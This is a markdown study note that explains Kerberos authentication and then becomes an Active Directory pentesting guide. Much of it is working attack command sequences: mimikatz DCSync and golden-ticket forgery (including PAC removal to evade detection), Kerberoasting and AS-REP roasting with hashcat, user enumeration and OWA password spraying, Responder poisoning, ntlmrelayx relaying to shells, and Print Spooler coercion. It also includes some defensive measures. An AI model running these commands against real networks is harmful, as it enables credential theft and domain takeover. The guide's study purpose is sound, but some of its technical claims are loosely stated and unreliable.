

# Kerberos (I): How does Kerberos work? – Theory
## What is Kerberos?

Firstly, Kerberos is an authentication protocol, not authorization. In other words, it allows to identify each user, who provides a secret password, however, it does not validates to which resources or services can this user access.

Kerberos is used in Active Directory. In this platform, Kerberos provides information about the privileges of each user, but it is responsibility of each service to determine if the user has access to its resources.

## Kerberos items
### Transport layer

Kerberos uses either UDP or TCP as transport protocol, which sends data in cleartext. Due to this Kerberos is responsible for providing encryption.

Ports used by Kerberos are UDP/88 and TCP/88, which should be listen in KDC

### Agents

agents work together to provide authentication in Kerberos

- Client or user who wants to access to the service.
- AP (Application Server) which offers the service required by the user.
- KDC (Key Distribution Center), the main service of Kerberos, responsible of issuing the tickets, installed on the DC (Domain Controller). It is supported by the AS (Authentication Service), which issues the TGTs.

### Encryption keys

There are several structures handled by Kerberos, as tickets. Many of those structures are encrypted or signed in order to prevent being tampered by third parties. These keys are the following:

- KDC or krbtgt key which is derivate from krbtgt account NTLM hash.
- User key which is derivate from user NTLM hash.
- Service key which is derivate from the NTLM hash of service owner, which can be an user or computer account.
- Session key which is negotiated between the user and KDC.
- Service session key to be use between user and service.

1.  **KDC or `krbtgt` Key**
    
    *   This key is derived from the NTLM hash of the `krbtgt` account.
    *   The KDC (Key Distribution Center) is responsible for issuing authentication tickets in a Kerberos environment.
    *   Since `krbtgt` is a special account used to sign and encrypt Ticket-Granting Tickets (TGTs), its key is crucial for Kerberos security.
    *   **Example:**
        *   The `krbtgt` account has an NTLM hash: `ABCD1234...`
        *   The KDC uses this hash to generate encryption keys that sign and encrypt TGTs.
        *   If an attacker gets this key, they can forge TGTs and authenticate as any user (Golden Ticket Attack).
2.  **User Key**
    
    *   This key is derived from the NTLM hash of a user account.
    *   The user’s password is converted into an NTLM hash, which is then used as an encryption key.
    *   This key is used to encrypt and decrypt Kerberos authentication messages for that specific user.
    *   **Example:**
        *   User `Alice` has a password `SuperSecret!`
        *   The NTLM hash of `SuperSecret!` is `XYZ12345...`
        *   Kerberos uses this NTLM hash to encrypt Alice’s authentication data.
3.  **Service Key**
    
    *   This key is derived from the NTLM hash of the service owner, which can be a user account (for user-based services) or a computer account (for system services).
    *   It is used to secure service tickets (TGS) issued by the KDC.
    *   **Example:**
        *   Suppose there is a web service running on `server01.example.com`.
        *   This service runs under the account `HTTP/server01.example.com`.
        *   The NTLM hash of this service account is used as the service key to encrypt and decrypt tickets.
        *   When a user requests a ticket for this service, the KDC encrypts it with the service key.
4.  **Session Key**
    
    *   This key is dynamically generated for each authentication session between the user and the KDC.
    *   It is used for securing communication between the user and KDC.
    *   **Example:**
        *   Alice logs into the network and requests a TGT.
        *   The KDC creates a session key unique to Alice’s session and encrypts it using Alice’s user key.
        *   Alice decrypts the session key using her NTLM-based user key and uses it for further authentication steps.
5.  **Service Session Key**
    
    *   This key is used between the user and the service after authentication is completed.
    *   It allows secure communication between them without needing to contact the KDC repeatedly.
    *   **Example:**
        *   Alice successfully authenticates and gets a service ticket for `HTTP/server01.example.com`.
        *   This ticket includes a `service session key` that both Alice and the service use to encrypt their communication.

**📌 Step-by-Step Kerberos Authentication Flow**
------------------------------------------------

Let's say **Alice** wants to access a web service running on `server01.example.com`.

### **1️⃣ Initial Authentication: Requesting a Ticket-Granting Ticket (TGT)**

*   Alice logs in and enters her username and password.
*   Her password is hashed into an **NTLM hash**, which is then converted into a Kerberos **User Key**.
*   Alice sends an authentication request to the KDC (**AS-REQ**).
    
    `AS-REQ (Alice → KDC): - Alice’s username - Encrypted timestamp (using User Key)`
    
*   The KDC verifies Alice’s credentials by decrypting the timestamp using her **User Key**.
*   If valid, the KDC sends back a **Ticket-Granting Ticket (TGT)**, encrypted with the **krbtgt key**.
    
    `AS-REP (KDC → Alice): - TGT (Encrypted with krbtgt key) - Session Key (Encrypted with Alice’s User Key)`
    
*   Alice stores the **TGT** in memory for later use.

✅ **Pentester Insight:**

*   The TGT is **valid for a limited time** but can be renewed.
*   If an attacker dumps the TGT from memory (e.g., with **Mimikatz**), they can use it for lateral movement (**Pass-the-Ticket Attack**).

* * *

### **2️⃣ Requesting a Service Ticket from TGS**

*   Alice now wants to access `HTTP/server01.example.com`.
*   She sends a request to the **Ticket Granting Server (TGS)** using her TGT (**TGS-REQ**).
    
    `TGS-REQ (Alice → KDC): - TGT (Encrypted with krbtgt key) - Request for service: HTTP/server01.example.com`
    
*   The KDC decrypts the TGT using the `krbtgt` key to verify Alice's identity.
*   If Alice is authorized, the KDC creates a **Service Ticket (TGS)** and encrypts it using the **Service Key** (NTLM hash of the service account).
    
    `TGS-REP (KDC → Alice): - Service Ticket (Encrypted with Service Key) - Service Session Key (Encrypted with Alice’s Session Key)`
    
*   Alice stores the **Service Ticket** and **Service Session Key** for further communication.

✅ **Pentester Insight:**

*   Service tickets **can be forged** if an attacker knows the NTLM hash of the service account (**Silver Ticket Attack**).
*   Tools like **Mimikatz** can extract service tickets from memory.

* * *

### **3️⃣ Accessing the Service**

*   Alice presents the **Service Ticket** to `server01.example.com` (**AP-REQ**).
    
    `AP-REQ (Alice → Service): - Service Ticket (Encrypted with Service Key) - Authenticator (Encrypted with Service Session Key)`
    
*   The service decrypts the **Service Ticket** using its **Service Key** (NTLM hash of `HTTP/server01.example.com`).
*   If valid, the service grants access.
    
    `AP-REP (Service → Alice): - Authenticator (Encrypted with Service Session Key)`
    
*   Alice can now interact with the service securely.

✅ **Pentester Insight:**

*   If an attacker steals a **Service Ticket**, they can access the service without needing the user’s credentials (**Pass-the-Ticket Attack**).

* * *

**💀 Common Attacks on Kerberos Authentication**
------------------------------------------------

| **Attack** | **Target** | **Description** | **Tool**
|---|---|---|---|
**Pass-the-Ticket (PTT)** |TGT or TGS |Extracts Kerberos tickets from memory and reuses them to authenticate. | `Mimikatz`, `Rubeus`
**Golden Ticket Attack** | krbtgt key | If an attacker dumps the `krbtgt` key, they can generate fake TGTs for any user. | `Mimikatz` 
| **Silver Ticket Attack** | Service Key | If an attacker dumps the NTLM hash of a service account, they can forge TGS tickets. | `Mimikatz` 
| **Kerberoasting** | Service Key | Requests service tickets and brute-forces NTLM hashes offline. | `Rubeus`, `Impacket` 
| **AS-REP Roasting** | User Key | Exploits accounts with pre-authentication disabled to extract hashes. | `Rubeus` |

# Tickets

- The TGS (Ticket Granting Service) is the ticket which user can use to authenticate against a service. It is encrypted with the service key.
- The TGT (Ticket Granting Ticket) is the ticket presented to the KDC to request for TGSs. It is encrypted with the KDC key.

### **🔍 What is a PAC?**

A **Privilege Attribute Certificate (PAC)** is a data structure included in most **Kerberos tickets** (TGT and TGS) that contains **user privileges, group memberships, and security identifiers (SIDs)**.

PAC data helps **Windows services** determine what actions a user is authorized to perform.

| **PAC Fields** | **Description** |
|---|---|
| **User ID (RID)** | The user’s unique ID in Active Directory |
| **Group Memberships** | Lists all security groups the user belongs to |
| **User Privileges** | Rights assigned to the user (e.g., admin privileges) |
| **Logon Time & Expiry** | Ticket creation and expiration timestamps |
| **KDC Signatures** | Signed by the KDC to prevent modification |


**📌 PAC Verification Process**
-------------------------------

*   The PAC is signed by the **Key Distribution Center (KDC)** to prevent tampering.
*   A service can verify the **PAC signature** with the KDC before granting access.
*   However, **services often skip verification**, making PAC attacks viable.

* * *

**💀 PAC Attacks and Exploits for Pentesters**
----------------------------------------------

### **1️⃣ PAC Forgery (Golden Ticket with Extra Privileges)**

**If an attacker has the NTLM hash of the `krbtgt` account**, they can forge a **PAC** to grant themselves **Domain Admin privileges**.

🔹 **Attack Steps:**

1.  **Dump the krbtgt hash** (requires domain admin or DCSync attack).
    
    `mimikatz "lsadump::dcsync /user:krbtgt"`
    
2.  **Generate a forged TGT with an altered PAC** to escalate privileges.
    
    `mimikatz "kerberos::golden /user:attacker /domain:example.com /sid:S-1-5-21-XXXXX /krbtgt:NTLMHASH /groups:512"`
    
    *   `/groups:512` → Adds the attacker to **Domain Admins**.
3.  **Inject the ticket into memory and gain admin access.**
    
    `mimikatz "kerberos::ptt golden.kirbi"`
    

✅ **Pentester Insight:**

*   This attack **bypasses normal group policy restrictions** because services rely on the PAC **without checking with the KDC**.
*   Detection is difficult unless logs are monitored for unusual ticket creation.

* * *

### **2️⃣ PAC Removal (Stealthier Golden Ticket Attack)**

By **removing the PAC from a ticket**, attackers can access services without revealing their true privileges.

🔹 **Attack Steps:**

1.  Generate a forged TGT **without a PAC**.
    
    `mimikatz "kerberos::golden /user:attacker /domain:example.com /sid:S-1-5-21-XXXXX /krbtgt:NTLMHASH /nopac"`
    
2.  Inject the ticket and authenticate as the user.
    
    `mimikatz "kerberos::ptt golden.kirbi"`
    
3.  Use RDP, SMB, or WinRM to access domain resources **without triggering privilege-related detections**.

✅ **Pentester Insight:**

*   This reduces the likelihood of detection **since security logs won’t show elevated group memberships**.
*   **SOC teams monitoring for privileged accounts won’t see "Domain Admins" in logs**, making it a stealthy attack.

* * *

### **3️⃣ PAC Manipulation (Modifying Group Memberships)**

Even without **krbtgt**, attackers can modify a **legitimate ticket's PAC** to add unauthorized privileges.

🔹 **Attack Steps:**

1.  Extract a valid **TGT or TGS** from memory using **Mimikatz**.
    
    `mimikatz "sekurlsa::tickets /export"`
    
2.  Modify the **PAC** to add Domain Admin privileges.
    
    `mimikatz "kerberos::golden /user:legituser /domain:example.com /sid:S-1-5-21-XXXXX /ticket:validticket.kirbi /groups:512"`
    
3.  Reinject the ticket and authenticate.
    
    `mimikatz "kerberos::ptt modified_ticket.kirbi"`
    

✅ **Pentester Insight:**

*   This **bypasses direct credential theft** and keeps the attack within the Kerberos system.
*   Only advanced logging (Event ID 4769) can catch anomalies in ticket issuance.

* * *

**💡 Defensive Measures Against PAC Attacks**
---------------------------------------------

*   **Enable PAC verification** on services that rely on Kerberos authentication.
*   **Regularly rotate the `krbtgt` key** to prevent Golden Ticket attacks.
*   **Monitor Kerberos event logs** for anomalies:
    *   `Event ID 4769` (TGS Requests) with **unusual service usage**.
    *   `Event ID 4771` (Pre-authentication failures).
    *   `Event ID 4624` (Logon events) showing **unexpected account logins**.
*   **Use Microsoft ATA or Defender for Identity** to detect forged PAC structures.

### Messages

Kerberos uses differents kinds of messages. The most interesting are the following:

- KRB_AS_REQ: Used to request the TGT to KDC.
- KRB_AS_REP: Used to deliver the TGT by KDC.
- KRB_TGS_REQ: Used to request the TGS to KDC, using the TGT.
- KRB_TGS_REP: Used to deliver the TGS by KDC.
- KRB_AP_REQ: Used to authenticate a user against a service, using the TGS.
- KRB_AP_REP: (Optional) Used by service to identify itself against the user.
- KRB_ERROR: Message to comunicate error conditions.

Additionally, even if it is not part of Kerberos, but NRPC, the AP optionally could use the KERB_VERIFY_PAC_REQUEST message to send to KDC the signature of PAC, and verify if it is correct.



## Authentication process
### KRB_AS_REQ

KRB_AS_REQ has, among others, the following fields:

- A encrypted timestamp with client key, to authenticate user and prevent replay attacks
- Username of authenticated user
- The service SPN associated with krbtgt account
- A Nonce generated by the user

> [!NOTE]
> the encrypted timestamp is only necessary if user requires preauthentication, which is common, except if `DONT_REQ_PREAUTH` flag is set in user account.


When attacking or defending Kerberos authentication, understanding **Service Principal Names (SPNs)** and **nonces** is crucial. These elements play an essential role in **authentication, ticket requests, and attack surface**.

* * *

**🔹 Service Principal Name (SPN)**
===================================

### **1️⃣ What is an SPN?**

A **Service Principal Name (SPN)** is a unique identifier for a **service instance** in Active Directory (AD). It is used by **Kerberos authentication** to locate and verify services.

💡 **Think of SPNs as usernames for services in Kerberos.** When a client wants to access a service, it requests a ticket for the SPN of that service.

### **2️⃣ SPN Format**

The general format of an SPN is:

`serviceClass/host:port@REALM`

**Example**

**Description**

`HTTP/webserver.domain.com`

Web service running on `webserver.domain.com`

`MSSQLSvc/sqlserver.domain.com:1433`

SQL Server running on port 1433

`CIFS/fileserver.domain.com`

File server (SMB)

`HOST/workstation.domain.com`

Workstation login session

💡 **SPNs are case-insensitive but must be unique within a domain.**

* * *

### **3️⃣ SPN in `KRB_AS_REQ`**

When a client requests an authentication ticket (`KRB_AS_REQ`), it includes the **SPN of the KDC** (typically the `krbtgt` account) to request a **Ticket-Granting Ticket (TGT)**.

*   **SPN in AS-REQ:**
    
    `krbtgt/EXAMPLE.COM@EXAMPLE.COM`
    
*   This tells the **Key Distribution Center (KDC)** that the user wants a **TGT** to authenticate further services.

* * *

### **4️⃣ SPN Attacks for Pentesters**

#### **📌 Kerberoasting (SPN Enumeration & Ticket Extraction)**

**Objective:** Extract service account credentials from AD.

🛠 **Attack Steps:**

1.  **Find accounts with SPNs set**:
    
    `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`
    
    or using Impacket:
    
    `GetUserSPNs.py domain/user:password -dc-ip <DC-IP>`
    
2.  **Request a Ticket-Granting Service (TGS) ticket** for a service:
    
    `Rubeus.exe kerberoast`
    
    or:
    
    `GetUserSPNs.py -request`
    
3.  **Crack the extracted ticket** offline:
    
    `hashcat -m 13100 service_ticket_hash.txt rockyou.txt`
    

✅ **Pentester Insight:**

*   **Weak service account passwords** can be cracked offline, leading to **privilege escalation**.
*   **Use `SetSPN -L <user>`** to check if an account has SPNs set.
*   **Monitor Event ID 4769** for TGS requests to detect Kerberoasting attempts.

* * *

**🔹 What is a Nonce in Kerberos?**
===================================

### **1️⃣ Definition**

A **nonce** is a **random value** generated by the client in `KRB_AS_REQ` to **prevent replay attacks**.

💡 **Think of it as a one-time token used to prove that a request is fresh.**

### **2️⃣ How Nonces Work**

1.  **Client sends AS-REQ** with:
    
    *   Encrypted timestamp
    *   A **random nonce**
    *   User credentials
    *   Requested service (`krbtgt` SPN)
2.  **KDC responds with AS-REP**, which:
    
    *   **Includes the nonce**
    *   Encrypts it with the user's key
3.  **Client verifies** that the nonce **matches** what it originally sent.
    

* * *

### **3️⃣ Nonce in `KRB_AS_REQ` Example**

`KRB_AS_REQ {     client_name = "attacker",     realm = "EXAMPLE.COM",     service = "krbtgt/EXAMPLE.COM",     encrypted_timestamp = <time>,     nonce = 0x1A2B3C4D }`

*   The **nonce (0x1A2B3C4D)** is randomly generated by the client.
*   If an attacker **replays** an old `AS-REQ`, the nonce won't match, preventing replay attacks.

* * *

### **4️⃣ Nonce Attack Vectors**

#### **📌 AS-REP Roasting (Attacking Nonce-Based Authentication)**

*   If a user has the **DONT\_REQ\_PREAUTH** flag set, they **don’t encrypt the timestamp**.
*   The KDC **immediately responds** with an AS-REP ticket **encrypted with the user's NTLM hash**.
*   **Attackers can request AS-REP tickets and crack them offline!**

🛠 **Attack Steps:**

1.  **Find users with preauth disabled**:
    
    `GetNPUsers.py example.com/ -dc-ip <DC-IP> -usersfile users.txt`
    
2.  **Crack the AS-REP hash**:
    
    `hashcat -m 18200 hash.txt rockyou.txt`
    

✅ **Pentester Insight:**

*   Accounts with **DONT\_REQ\_PREAUTH** are vulnerable to **AS-REP roasting**.
*   **Monitor Event ID 4768** (TGT requests) for users **without preauthentication**.
*   Use **group policy** to enforce **preauthentication**.

* * *


### KRB_AS_REP


KRB_AS_REP includes the next information:

- Username
- TGT, which includes:
    - Username
    - Session key
    - Expiration date of TGT
    - PAC with user privileges, signed by KDC
- Some encrypted data with user key, which includes:
    - Session key
    - Expiration date of TGT
    - User nonce, to prevent replay attacks


### KRB_TGS_REQ


- Encrypted data with session key:
    - Username
    - Timestamp
- TGT
- SPN of requested service
- Nonce generated by user

### KRB_TGS_REP


- Username
- TGS, which contains:
    - Service session key
    - Username
    - Expiration date of TGS
    - PAC with user privileges, signed by KDC
- Encrypted data with session key:
    - Service session key
    - Expiration date of TGS
    - User nonce, to prevent replay attacks

### KRB_AP_REQ

To finish, if everything went well, the user already has a valid TGS to interact with service. In order to use it, user must send to the AP a KRB_AP_REQ message:


- TGS
- Encrypted data with service session key:
    - Username
    - Timestamp, to avoid replay attacks

After that, if user privileges are rigth, this can access to service. If is the case, which not usually happens, the AP will verify the PAC against the KDC. And also, if mutual authentication is needed it will respond to user with a KRB_AP_REP message.

## Attacks
Based on previous explained authentication process the attacks oriented to compromise Active Directory will be explained in this section.

### Overpass The Hash/Pass The Key (PTK)
The popular Pass The Hash (PTH) attack consist in using the user hash to impersonate the specific user. In the context of Kerberos this is known as Overpass The Hash o Pass The Key.

If an attacker gets the hash of any user, he could impersonate him against the KDC and then gain access to several services.

User hashes can be extracted from SAM files in workstations or NTDS.DIT file of DCs, as well as from the lsass process memory (by using Mimikatz) where it is also possible to find cleartext passwords.

### Pass The Ticket (PTT)
Pass The Ticket technique is about getting an user ticket and use it to impersonate that user. However, besides the ticket, it is necessary obtain the session key too in order to use the ticket.

It is possible obtain the ticket performing a Man-In-The-Middle attack, due to the fact that Kerberos is sent over TCP or UDP. However, this techniques does not allow get access to session key.

An alternative is getting the ticket from lsass process memory, where also reside the session key. This procediment could be performed with Mimikatz.

It is better to obtain a TGT, due to TGS only can be used against one service. Also, it should be taken into account that the lifetime of tickets is 10 hours, after that they are unusable.

### Golden Ticket and Silver Ticket
The objective of Golden Ticket is to build a TGT. In this regard, it is necessary to obtain the NTLM hash of krbtgt account. Once that is obtained, a TGT with custom user and privileges can be built.

Moreover, even if user changes his password, the ticket still will be valid. The TGT only can be invalidate if this expires or krbtgt account changes its password.

Silver Ticket is similar, however, the built ticket is a TGS this time. In this case the service key is required, which is derived from service owner account. Nevertheless, it is not possible to sign correctly the PAC without krbtgt key. Therefore, if the service verifies the PAC, then this technique will not work.

### Kerberoasting
Kerberoasting is a technique which takes advantage of TGS to crack the user accounts passwords offline.

As seen above, TGS comes encrypted with service key, which is derived from service owner account NTLM hash. Usually the owners of services are the computers in which the services are being executed. However, the computer passwords are very complex, thus, it is not useful to try to crack those. This also happens in case of krbtgt account, therefore, TGT is not crackable neither.

All the same, on some occasions the owner of service is a normal user account. In these cases it is more feasible to crack their passwords. Moreover, this sort of accounts normally have very juicy privileges. Additionally, to get a TGS for any service only a normal domain account is needed, due to Kerberos not perform authorization checks.

### ASREPRoast
ASREPRoast is similar to Kerberoasting, that also pursues the accounts passwords cracking.

If the attribute DONT_REQ_PREAUTH is set in a user account, then it is possible to built a KRB_AS_REQ message without specifying its password.

After that, the KDC will respond with a KRB_AS_REP message, which will contain some information encrypted with the user key. Thus, this message can be used to crack the user password.

#### What is DONT_REQ_PREAUTH?
The DONT_REQ_PREAUTH flag is an attribute set on a user account in Active Directory (AD) that disables Pre-Authentication.
When this flag is set, the user can request a TGT without providing an encrypted timestamp.
In AD User Properties:

The setting can be found under "Account options" as "Do not require Kerberos preauthentication."

# Recon Active Directory (No creds/sessions)

If you just have access to an AD environment but you don't have any credentials/sessions you could:

- Pentest the network:
    - Scan the network, find machines and open ports and try to exploit vulnerabilities or extract credentials from them (for example, printers could be very interesting targets.
    - Enumerating DNS could give information about key servers in the domain as web, printers, shares, vpn, media, etc.
        - gobuster dns -d domain.local -t 25 -w /opt/Seclist/Discovery/DNS/subdomain-top2000.txt
    - Take a look to the General Pentesting Methodology to find more information about how to do this.
- Check for null and Guest access on smb services (this won't work on modern Windows versions):
    - `enum4linux -a -u "" -p "" <DC IP> && enum4linux -a -u "guest" -p "" <DC IP>`
    - `smbmap -u "" -p "" -P 445 -H <DC IP> && smbmap -u "guest" -p "" -P 445 -H <DC IP>`
    - `smbclient -U '%' -L //<DC IP> && smbclient -U 'guest%' -L //`
- Enumerate Ldap
    - `nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>`

- Poison the network
    - Gather credentials impersonating services with Responder
    - Access host by abusing the relay attack
    - Gather credentials exposing fake UPnP services with evil-SSDP
- OSINT:
    - Extract usernames/names from internal documents, social media, services (mainly web) inside the domain environments and also from the publicly available.
    - If you find the complete names of company workers, you could try different AD username conventions (read this). The most common conventions are: NameSurname, Name.Surname, NamSur (3letters of each), Nam.Sur, NSurname, N.Surname, SurnameName, Surname.Name, SurnameN, Surname.N, 3 random letters and 3 random numbers (abc123).
    - Tools:
        - w0Tx/generate-ad-username
        - urbanadventurer/username-anarchy

## User enumeration

- Anonymous SMB/LDAP enum
- Kerbrute enum
- No Authentication against MS-NRPC

```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>

msf> use auxiliary/gather/kerberos_enumusers

crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq
python3 nauth.py -t target -u users_file.txt #From https://github.com/sud0Ru/NauthNRPC
```

- OWA (Outlook Web Access) Server : If you found one of these servers in the network you can also perform user enumeration against it.

```bash
ipmo C:\Tools\MailSniper\MailSniper.ps1
# Get info about the domain
Invoke-DomainHarvestOWA -ExchHostname [ip]
# Enumerate valid users from a list of potential usernames
Invoke-UsernameHarvestOWA -ExchHostname [ip] -Domain [domain] -UserList .\possible-usernames.txt -OutFile valid.txt
# Password spraying
Invoke-PasswordSprayOWA -ExchHostname [ip] -UserList .\valid.txt -Password Summer2021
# Get addresses list from the compromised mail
Get-GlobalAddressList -ExchHostname [ip] -UserName [domain]\[username] -Password Summer2021 -OutFile gal.txt
```
## Knowing one or several usernames
Ok, so you know you have already a valid username but no passwords... Then try:

- ASREPRoast: If a user doesn't have the attribute DONT_REQ_PREAUTH you can request a AS_REP message for that user that will contain some data encrypted by a derivation of the password of the user.
- Password Spraying: Let's try the most common passwords with each of the discovered users, maybe some user is using a bad password (keep in mind the password policy!).
    - Note that you can also spray OWA servers to try to get access to the users mail servers.

## LLMNR/NBT-NS Poisoning
You might be able to obtain some challenge hashes to crack poisoning some protocols of the network

- Microsoft and other operating systems use LLMNR and NBT-NS for local name resolution when DNS fails. Similarly, Apple and Linux systems use mDNS.
- LLMNR is a protocol that allows both IPv4 and IPv6 hosts to perform name resolution for hosts on the same local network without requiring a DNS server or DNS configuration.
- Responder can be used to impersonate services by sending forged responses to hosts querying these protocols.

**🔹 How NTLM Relay Works**
---------------------------

An attacker **intercepts the authentication process** and forwards the credentials to another machine, authenticating **as the victim**.

### **💀 Step-by-Step Attack Scenario**

🔷 **Prerequisites for a Successful Attack**  
✅ The victim must attempt to authenticate to the attacker’s machine.  
✅ The relayed system must **not enforce SMB signing** (NTLM signing protects against relay attacks).  
✅ The relayed user must have **admin privileges** on the target system (for full exploitation).

### **1️⃣ Attacker Sets Up a Rogue SMB/HTTP Server**

*   The attacker uses **Responder** or **MITM6** to **trick the victim** into authenticating to them.
    
    `sudo responder -I eth0 -dw`
    
    *   This **poisons LLMNR/NBT-NS requests**, making the victim resolve an attacker-controlled name.

### **2️⃣ Victim Sends an Authentication Request**

*   The victim (e.g., an administrator) attempts to connect to a share (`\\FAKE-SERVER\share`).
*   The attacker **captures the NTLM authentication** (challenge-response).

### **3️⃣ Attacker Relays the Credentials**

*   Using **NTLMRelayX**, the attacker forwards the authentication to a target system.
    
    `ntlmrelayx.py -tf targets.txt -smb2support`
    
    *   If the **relayed authentication is accepted**, the attacker **gains access** as the victim.

### **4️⃣ Attacker Executes Commands on Target**

*   If the victim is a **local administrator**, the attacker can **gain SYSTEM privileges** by opening an SMB session:
    
    `smbexec.py DOMAIN/VictimUser@Target-IP`
    
    *   This provides a **shell on the target system**.

* * *

**🔹 Example Attack**
---------------------

1.  **Find vulnerable machines (without SMB signing)**
    
    `nmap --script smb2-security-mode.nse -p 445 192.168.1.0/24`
    
    *   If the response shows `Message signing disabled`, it’s **vulnerable to NTLM relay**.
2.  **Poison authentication requests**
    
    `sudo responder -I eth0 -dw`
    
    *   This intercepts NTLM authentication from victims.
3.  **Relay the captured NTLM credentials**
    
    `ntlmrelayx.py -tf target.txt -smb2support -c "whoami"`
    
    *   If successful, the command runs on the target machine as the victim.

* * *

## NTLM Relay
If you have managed to enumerate the active directory you will have more emails and a better understanding of the network. You might be able to to force NTML relay attacks **** to get access to the AD env.

### Force NTLM Privileged Authentication

### **🔍 What is the Print Spooler Service?**

The **Print Spooler service** (`spoolsv.exe`) is a Windows service that manages print jobs. It is enabled by default on **domain controllers (DCs)**, workstations, and many servers.

💡 **Why is it a security risk?**

*   The Print Spooler service has a **mechanism for sending notifications** when new print jobs are created.
*   Attackers can **abuse this notification mechanism** to force authentication from the DC to an attacker-controlled machine.

* * *

**🛠️ Step-by-Step Attack Explanation**
---------------------------------------

### **1️⃣ Print Spooler Notifies for Print Jobs**

*   The Print Spooler service can notify **other systems** when a print job is created.
*   Normally, this is used for print **status updates** (e.g., informing users when a document has been printed).
*   **However**, this notification process involves the **Domain Controller (DC) authenticating to the target system** using its **machine account**.

### **2️⃣ Attacker Forces the DC to Authenticate**

*   An attacker can **request print job notifications** but **redirect them to an attacker-controlled machine**.
*   This means the **DC will attempt to authenticate** (via NTLM) to the attacker's system.

### **3️⃣ Attacker Captures NTLM Hash of the DC**

*   Since authentication happens over NTLM, the attacker can **capture the NTLM hash** of the **Domain Controller's computer account** (`DC$`).
*   The captured hash can then be **relayed** to another system for privilege escalation.

* * *

**💀 How to Exploit Print Spooler Service**
-------------------------------------------

### **🛠️ Steps to Perform the Attack**

### **1️⃣ Check if the Print Spooler Service is Running**

On the **Domain Controller**, check if the service is enabled:

`Get-Service -Name Spooler`

If it's **Running**, it's vulnerable.

Alternatively, check across **all domain computers**:

`Get-ADComputer -Filter * -Properties Name,OperatingSystem,ServicePrincipalName | Select Name,OperatingSystem,ServicePrincipalName`

* * *

### **2️⃣ Use `SpoolSample` to Force Authentication**

A tool called **SpoolSample** can exploit this vulnerability.

`SpoolSample.exe attacker-host victim-host`

*   `attacker-host`: Your machine (to receive authentication attempts).
*   `victim-host`: The Domain Controller.

💡 **What happens here?**

*   The **DC** (victim-host) sends a **print job notification request** to the **attacker's machine** (attacker-host).
*   The **DC authenticates using NTLM**, sending its **NTLM hash** to the attacker.

* * *

### **3️⃣ Capture the NTLM Hash**

Use **Responder** to capture the NTLM hash:

`sudo responder -I eth0 -wrf`

*   The NTLM **challenge-response hash** will appear.

You can **crack it** using `hashcat`:

`hashcat -m 5600 dc_ntlm_hash.txt rockyou.txt`

Or, you can **relay the captured hash** to another system using **NTLMRelayX**:

`ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`

*   If the **relayed authentication is accepted**, you **gain access as the DC**.

* * *

### **🚀 Real-World Impact**

*   **Privilege Escalation**: If the DC’s machine account has high privileges, attackers can use **Pass-the-Hash** to gain **domain admin access**.
*   **Lateral Movement**: The NTLM hash can be used to access **other machines** in the domain.
*   **Persistence**: Attackers can create backdoors using **DC machine account credentials**.

* * *

**🔐 How to Defend Against Spooler Abuse**
------------------------------------------

✅ **Disable the Print Spooler Service on Domain Controllers**

`Stop-Service -Name Spooler -Force Set-Service -Name Spooler -StartupType Disabled`

*   Since **DCs rarely need printing**, disabling it is a strong mitigation.

✅ **Block NTLM Relay Attacks**

`Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "RestrictNTLMInDomain" -Value 1`

*   This prevents NTLM relay attacks by enforcing Kerberos authentication.

✅ **Enable SMB Signing**

`Set-SmbServerConfiguration -EnableSMB1Protocol $false -RequireSecuritySignature $true -Force`

*   This ensures NTLM relay attacks are **blocked**.

✅ **Monitor for Suspicious Authentication Requests** Check event logs (`Event ID 4662, 4768, 4776`) for **unusual authentication attempts from the DC**.

### Finding Windows Servers on the domain
Using PowerShell, get a list of Windows boxes. Servers are usually priority, so lets focus there:

```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```

### Finding Spooler services listening
Using a slightly modified @mysmartlogin's (Vincent Le Toux's) SpoolerScanner, see if the Spooler Service is listening:

```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```

You can also use rpcdump.py on Linux and look for the MS-RPRN Protocol

```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```

**📌 What is Unconstrained Delegation?**
----------------------------------------

Unconstrained Delegation is a **Kerberos feature** that allows a server to **act on behalf of users** who authenticate to it.

💡 **How it works normally?**

1.  A computer (e.g., a web server) is configured for **Unconstrained Delegation**.
2.  When a user logs in to that server, their **TGT (Kerberos Ticket Granting Ticket)** is **stored in memory**.
3.  The server can **use this TGT to request access to other services** as that user.

✅ **Intended Use:** It is used for **Single Sign-On (SSO)**, so users don’t have to enter passwords multiple times.  
❌ **Security Risk:** Any attacker who controls a machine with Unconstrained Delegation can steal TGTs from **any user that connects to it** (including domain admins and DC accounts).

* * *

**📌 How Does This Attack Work? (Step-by-Step)**
------------------------------------------------

